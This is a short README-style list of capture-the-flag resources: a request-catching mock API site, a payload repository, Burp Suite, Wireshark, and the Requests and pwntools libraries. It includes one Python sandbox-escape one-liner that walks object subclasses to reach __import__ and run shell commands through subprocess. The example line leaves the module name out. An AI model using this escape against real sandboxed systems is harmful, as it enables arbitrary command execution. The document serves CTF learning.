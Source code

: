 # CTF-Things



## A list of useful things that can help you in CTFs.
---------------------------------------
## Websites

## [Beeceptor](https://beeceptor.com/)
```
A website where you can create a mock api that can act as your server and recive requests.
```

-----------------------
## Payloads

### [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
```
A useful repository that has all kinds of payload for a lot of diffrent attacks.
```

### A Python code that can call a function from any library without using the import statment.
```
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__'](<the library name>).<the function>

example:
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']().check_output(['ls', '-l'])

In this example we call the check_output function from the subprocess library.
This example can essentioly run any shell code on the machine using python.
```

-----------------------------
## Tools

### [Burp suite](https://portswigger.net/burp/communitydownload)
```
Everyone knows burpsuite, but for those who dont I can explain:
essentialy burp suite let you see your http traffic, act as a proxy, change http requests, and a lot more!!!
```


### [Wireshark](https://www.wireshark.org/)
```
Another classic like burp suite...
Wireshark lets you sniff the network traffic on your computer and open sniffs files.
```
-----------------------------
## Python libraries

### [Requests](https://pypi.org/project/requests/)
```
A python library that lets you send http requests on the web.
```

### [Pwn tools](https://docs.pwntools.com/en/stable/)
```
A python library that gives you a lot of tools to use in CTFs.
Tools like - netcat from a script with the pwn.remote function, analizing binary files.
```

******************
